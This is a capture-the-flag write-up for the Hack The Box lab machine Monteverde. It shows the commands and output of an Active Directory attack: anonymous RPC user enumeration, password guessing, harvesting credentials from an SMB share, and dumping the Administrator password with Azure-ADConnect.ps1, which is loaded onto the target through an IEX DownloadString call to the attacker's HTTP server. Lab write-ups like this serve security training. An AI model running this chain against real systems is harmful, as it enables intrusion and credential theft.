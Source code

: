 - 2020-04-20
- HTB Monteverde

![machine profile](web/assets/htb_monteverde_profile.png)

**Summary:**
- Find credentials for user account over `msrpc`.
- Use credentials to enumerate SMB to discover more credentials.
- Exploit loose user permissions to dump Administrator credentials using Azure-ADConnect

**Setup:**
Add the box IP to our `/etc/hosts` file.

```console
$ printf "10.10.10.172\tmonteverde.htb\n" >> /etc/hosts
```

**Enumeration:**
Perform detailed portscan on the lower ports of `cascade.htb` using `nmap` to gather information on any exposed services. Then, perform a less resolute portscan to identify any open higher ports.

```console
$ sudo nmap -sC -sV monteverde.htb -oA nmap/initial; sleep 300 && \
    sudo nmap -p- -sS monteverde.htb -oA nmap/all-ports
$ cat nmap/initial.nmap
# Nmap 7.80 scan initiated Mon Apr  6 16:05:13 2020 as: nmap -Pn -sC -sV -oA nmap/initial monteverde.htb
Nmap scan report for monteverde.htb (10.10.10.172)
Host is up (0.041s latency).
Not shown: 989 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-04-06 14:27:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/6%Time=5E8B453B%P=x86_64-unknown-linux-gnu%r(
SF:DNSVersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07vers
SF:ion\x04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -37m34s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-04-06T14:30:13
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr  6 16:09:57 2020 -- 1 IP address (1 host up) scanned in 283.52 seconds
```

Kerberos stands out as an exploitable service for later. If we look at the LDAP services, the box has `MEGABANK.LOCAL0` as its FQDN, we add this to our hosts file along with `monteverde.htb`. Before we can interact with kerberos, we need to enumerate user accounts. A common theme is unsecured `msrpc` which allows us to anonymously connect and dump user account information.

```console
$ rpcclient //monteverde.htb -U "" -N
Unable to initialize messaging context
rpcclient $> enumdomusers
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```

**User:**
If we try the username as the password for each user we have success with `SABatchJobs`. Next, we enumerate SMB as an authenticated user.

```console
$ python smbmap.py -H monteverde.htb -u SABatchJobs -p SABatchJobs
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.172...
[+] IP: 10.10.10.172:445	Name: monteverde.htb
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
...
	.
	dr--r--r--                0 Fri Jan  3 13:12:48 2020	.
	dr--r--r--                0 Fri Jan  3 13:12:48 2020	..
	dr--r--r--                0 Fri Jan  3 13:15:23 2020	dgalanos
	dr--r--r--                0 Fri Jan  3 13:41:18 2020	mhope
	dr--r--r--                0 Fri Jan  3 13:14:56 2020	roleary
	dr--r--r--                0 Fri Jan  3 13:14:28 2020	smorgan
	users$                                            	READ ONLY
```

After inspecting each folder we find what appears to be a config file.

```console
smb: \mhope\> dir
  .                                   D        0  Fri Jan  3 13:41:18 2020
  ..                                  D        0  Fri Jan  3 13:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 13:40:23 2020

		524031 blocks of size 4096. 519955 blocks available
```

Downloading this locally and opening we discover a password for mhope.

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

We can now logon to the box using `evil-winrm` over `wsman` then collect our flag.

```console
$ evil-winrm -P 5985 -u mhope -p "4n0therD4y@n0th3r$" -i monteverde.htb

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents> dir ../Desktop/user.txt


    Directory: C:\Users\mhope\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/3/2020   5:48 AM             32 user.txt
```

**Root:**
We look at the groups mhope is in to look for loose permissions.

```console
*Evil-WinRM* PS C:\Users\mhope\Documents> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 4:40:05 PM
Password expires             Never
Password changeable          1/3/2020 4:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory               \\monteverde\users$\mhope
Last logon                   4/22/2020 4:18:30 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users
The command completed successfully.
```

We see mhope is a member of `Azure Admins`, some searching leads us to [Azure-ADConnect.ps1](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1). The HTB VPN doesn't allow external connections so we download theh script to our local machine then spawn a HTTP server.

```console
$ wget "https://raw.githubusercontent.com/Hackplayers/PsCabesha-tools/master/Privesc/Azure-ADConnect.ps1"
--2020-04-22 13:57:52--  https://raw.githubusercontent.com/Hackplayers/PsCabesha-tools/master/Privesc/Azure-ADConnect.ps1
Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt'
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.60.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.60.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2264 (2.2K) [text/plain]
Saving to: ‘Azure-ADConnect.ps1’

Azure-ADConnect.ps1          100%[===========================================>]   2.21K  --.-KB/s    in 0s

2020-04-22 13:57:52 (25.9 MB/s) - ‘Azure-ADConnect.ps1’ saved [2264/2264]

$ python -m http.server
```

Once downloaded we import the script on the remote machine then exploit.

```console
*Evil-WinRM* PS C:\Users\mhope\Documents> IEX (New-Object Net.WebClient).DownloadString('http://10.10.XX.XX:8000/Azure-ADConnect.ps1');
*Evil-WinRM* PS C:\Users\mhope\Documents> Azure-ADConnect -server 127.0.0.1 -db ADSync
[+] Domain:  MEGABANK.LOCAL
[+] Username: administrator
[+]Password: d0m@in4dminyeah!
```

We now have the Administrator credentials which we can use to connect to the box then read `root.txt`.

```console
$ evil-winrm -P 5985 -u Administrator -p "d0m@in4dminyeah!" -i monteverde.htb

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> dir ../Desktop/root.txt


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/3/2020   5:48 AM             32 root.txt
```
